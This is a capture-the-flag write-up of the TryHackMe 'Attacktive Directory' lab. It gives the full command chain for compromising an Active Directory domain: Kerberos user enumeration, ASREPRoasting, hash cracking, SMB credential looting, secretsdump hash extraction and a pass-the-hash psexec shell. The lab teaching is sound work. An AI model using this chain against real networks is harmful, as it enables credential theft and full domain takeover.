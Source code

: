 ```yaml
---
layout: post
title: Attacktive Directory – Try Hack Me
subtitle: Walkthrough
tags: [active,directory]
---
```


99% of Corporate networks run off of Active Directory from this machine you will have a good base understanding on how to exploit such an environment. 

Learning Objectives:

* AD Enumeration
* Kerberos
* Cracking Hashes
* Impacket

[Challenge](https://tryhackme.com/room/attacktivedirectory)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 => Impacket

Install Impacket, this is a collection of Python classes for working with network protocols. More information abou Impacket and have and overview about some of its tool can be found [here](https://www.secureauth.com/labs/open-source-tools/impacket).  
Have a look at [this](https://github.com/SecureAuthCorp/impacket.git) Github repository to learn how to install it.

## Task 3 => Enumeration 1

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo 10.10.194.183 spookysec.local >> /etc/hosts
~~~

Basic nmap scan to discover what we are working with

~~~
nmap spookysec.local
~~~

![nmap](/img/2020-04-26-AttacktiveDir/nmap.png)

Using the first scan we will use the port discovered and run a more complete scan.

~~~
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389 -A -T4 spookysec.local
~~~

![nmapa](/img/2020-04-26-AttacktiveDir/nmapA.png)

From this scan we discover the Domain Name of the machine as well as the the full AD domain. 

## Task 4 => Enumeration 2

Using enum4linux we are able to enumerate port 139 and 445.
This tool output quite a lengthy output, we will only post the important parts for the walkthrough.

~~~
enum4linux -A  spookysec.local
~~~

![enum](/img/2020-04-26-AttacktiveDir/enum.png)
![enum2](/img/2020-04-26-AttacktiveDir/enum2.png)

We managed to also retrieve information about the full AD domain name and the Domain Name of the machine plus some username that might be useful later. 

We follow using the tool [Kerbrute](https://github.com/ropnop/kerbrute/), which can be installed using the following command:

~~~
go get github.com/ropnop/kerbrute
~~~

Kerbrute is a tool that performs Kerberos pre-auth bruteforcing, in this case we will be using the username bruteforce feature.

~~~
~/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
~~~

![kerbrute](/img/2020-04-26-AttacktiveDir/kerbrute.png)

## Task 5 => ASREPRoasting

From the output we are able to validate some active usernames.
Once we have discovered a list of usernames we can use a technique called ASREPRoasting, meaning if a user does not have the Kerberos preauthentication property selected it is possible to retrieve the password hash.
Impacket provides a tool called GetNPUsers.py which can query the AD and if the property above is not selective it will export their TGT.

~~~
python3 GetNPUsers.py spookysec.local/svc-admin
~~~

![tgt](/img/2020-04-26-AttacktiveDir/tgt.png)

We are able to retrieve a hash from the svc-admin account, we now proceed to crack the hash using hashcat. In order to discover the mode we can have a look at the [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes).
We have saved the previous hash in the hash.txt file.

**Note:** If you are using a VM the flag '--force' is required.

~~~
hashcat -m 18200 hash.txt passwordlist.txt --force
~~~

## Task 6 => Enumeration 3

Having user credentials we can attempt to log into SMB and explore any shares from the domain controller.
This is possible with the tool smbclient, make sure to use the user 'svc-admin' as well as the previous cracked password.

~~~
smbclient -L spookysec.local --user svc-admin
~~~

![smb](/img/2020-04-26-AttacktiveDir/smb.png)

After exploring several shares, we found the file 'backup_credentials.txt'. 

~~~
smbclient \\\\spookysec.local\\backup --user svc-admin
~~~

![smb2](/img/2020-04-26-AttacktiveDir/smb2.png)

Looking at the content of the file we can see it is encoded with Base64. To decode it simply use the following command:

~~~
base64 -d backup_credentials.txt
~~~

## Task 7 => Elevating Privileges

Using the backup account we can use another tool from Impacket this time called 'secretsdump.py', we will be able to get all the password hashes that this user account has access to.

~~~
python3 secretsdump.py -just-dc backup@spookysec.local
~~~

![secret](/img/2020-04-26-AttacktiveDir/secret.png)

Now we are in possession of the Administrator password hash. The next step will be performing a [Pass the Hash Attack](https://attack.stealthbits.com/pass-the-hash-attack-explained). 
For this we can use another tool from Impacket called 'psexec.py'. For this tool you must paste the complete Administrator hash in the following command:

~~~
python3 psexec.py Administrator:@spookysec.local -hashes <Complete Hash>
~~~

![rce](/img/2020-04-26-AttacktiveDir/rce.png)

Congratulations, you now have complete access to the system, feel free to navigate to each user Desktop and get the flags.
Hope you enjoyed this guide. :)
